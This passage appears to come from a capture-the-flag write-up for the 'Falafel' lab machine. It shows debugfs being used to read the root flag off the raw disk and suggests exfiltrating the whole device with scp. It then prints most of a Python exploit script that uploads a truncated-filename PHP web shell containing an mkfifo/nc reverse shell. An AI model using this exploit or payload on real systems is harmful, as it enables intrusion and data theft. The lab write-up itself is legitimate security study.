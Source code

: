 `debugfs` let's you debug a file system if you can read the device:



    yossi@falafel:~$ debugfs /dev/sda1
    debugfs 1.42.13 (17-May-2015)
    debugfs:  ls /root
    debugfs:  cat /root/root.txt
    23b79200...



### Get Flag - exfil device

It's also possible to just scp the entire `/dev/sda1` back to your kali
box and mount it there.

## Other Stuff

### get_falafel_shell.py

I scripted the initial access exploit so that I can start a `nc`
listener, run it, and have shell:



    #!/usr/bin/env python3

    import argparse
    import http.server
    import os
    import re
    import requests
    import socket
    import sys
    from threading import Thread


    def get_my_ip():
        s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        s.connect(("10.10.10.1", 80))
        return s.getsockname()[0]

    # Parse args
    parser = argparse.ArgumentParser()
    parser.add_argument('--web-port', '-w', help='webserver port', default=8082, type=int)
    parser.add_argument('-n', '--nc-port', help='nc port', default=8003)
    parser.add_argument('--web-dir', '-d', help='location to serve files from', default='/tmp')
    parser.add_argument('--local-ip', '-i', help='local ip', default=None)
    args = parser.parse_args()

    filename = 'B' * 232 + '.php.png'
    falafel_ip = "10.10.10.73"
    falafel_url = "http://" + falafel_ip
    ip = args.local_ip or get_my_ip()
    web_port = args.web_port
    nc_port = args.nc_port
    rev_shell = '''<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {} {} >/tmp/f");?>'''.format(ip, nc_port)
    web_dir = args.web_dir
